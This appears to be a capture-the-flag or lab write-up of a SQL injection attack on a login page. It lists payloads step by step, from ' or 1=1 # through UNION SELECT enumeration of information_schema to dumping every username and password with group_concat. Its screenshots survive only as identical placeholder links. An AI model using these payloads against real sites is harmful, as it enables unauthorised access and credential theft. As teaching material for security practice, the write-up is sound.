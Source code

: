 ﻿In this chall we are greeted with a form or a login page which asks us to insert the username and password that is necessary for logging into the website.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

We proceed by fuzzing with the inputs of the following fields and find that “admin” works in this case as both username and password.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

We have successfully logged in but we need to break the query to proceed with the SQL based injection to extract or dump data from the database,

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ‘ #

Although it doesnt show as logged in, we can still input a payload between the ‘ and # we can inject the payload.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ' or 1=1 #

Now adding the limit parameter we will be able to extract more data from the database, for which we will only need to fuzz the numeral part of the limit parameter.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

Like so by using the following payload:

**PAYLOAD**: ' or 1=1 limit 1,2#

`                   `' or 1=1 limit 2,1#  etc…

Now before we dump all the passwords and the usernames we will need to find the number of columns that are present in the database using “order by”.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

From this, we can predict that there are only 2 columns in the table and now we will use the parameter “union select”.

**PAYLOAD**: ' union select 1,2#

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ' union select 1,database()#

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ' union select 1,version()#

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ' union select 1,table\_name from information\_schema.columns where table\_schema='security' limit 1,3#

We can see the table names by variating the limit.

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)

**PAYLOAD**: ' union select group\_concat(username),group\_concat(password) from users#

![](Aspose.Words.8154055a-2af0-470a-ae33-841830d8bd50.001.png)





